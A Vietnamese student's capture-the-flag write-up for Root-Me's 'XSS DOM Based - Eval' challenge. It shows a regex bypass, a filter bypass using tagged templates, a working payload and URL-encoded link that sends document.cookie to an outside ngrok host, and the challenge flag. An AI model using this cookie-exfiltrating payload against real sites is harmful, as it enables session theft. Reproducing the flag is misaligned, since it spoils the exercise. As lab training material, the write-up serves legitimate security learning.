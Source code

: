 # Challenge: XSS DOM Based - Eval
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 70 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval 

- Tại trang main của thử thách, ta thử nhập vào 1 phép tính và submit `11+12` Bài này sẽ thực thi chuỗi lệnh được nhập, làm tham số của hàm eval
<p align="center"><img src="./images/4.1.png"></p>

- Ta cũng nhập một chuỗi khác như `1,23`, khi đó ta nhận được một thông báo lỗi
<p align="center"><img src="./images/4.2.png"></p>

- Kiểm tra regex này ta thấy regex này thiếu kí tự kết thúc chuỗi regex. Khi đó ta nhập chuỗi `1+23,abc`, ta thấy không còn thông báo xuất hiện. Do vậy ta có thể bypass regex này bằng chuỗi tương tự như chuỗi vừa rồi, có dạng số...phép tính...số...và chuỗi bất kì. 
<p align="center"><img src="./images/4.3.png"></p>

- Ta bắt đầu với script, `1+23, alert(1)` ta nhận được thông báo lỗi, kí tự ')', '(' bị loại bỏ.
<p align="center"><img src="./images/4.4.png"></p>

- Để có thể bypass bộ lọc này ta sử dụng tagged templates, khi đó ta thử với chuỗi 1+23, alert\`1\` ta nhận được chuỗi thông báo của lệnh alert(1)
<p align="center"><img src="./images/4.5.png"></p>

- Đến đây ta đã thực hiện thành công 1 nửa, nhập input với ```1+23, document.location="http://120e-113-161-73-246.ngrok.io/?cookie="+document.cookie``` Khi đó ta thấy được trang web đã tự động gởi một request tới máy chủ ngrok. --> Ta đã thực hiện thành công, 
<p align="center"><img src="./images/4.6.png"></p>

- Ta thực hiện lấy link của request gởi input đã nhập từ HTTP Header LIVE:  `http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B23%2C+document.location%3D%22http%3A%2F%2F120e-113-161-73-246.ngrok.io%2F%3Fcookie%3D%22%2Bdocument.cookie`
<p align="center"><img src="./images/4.7.png"></p>

- Vào trang contact để gởi link đã lấy được cho admin, và đợi cookie về.
<p align="center"><img src="./images/4.8.png"></p>
<p align="center"><img src="./images/4.9.png"></p>

## Kết quả flag là `rootme{Eval_Is_DangER0us}`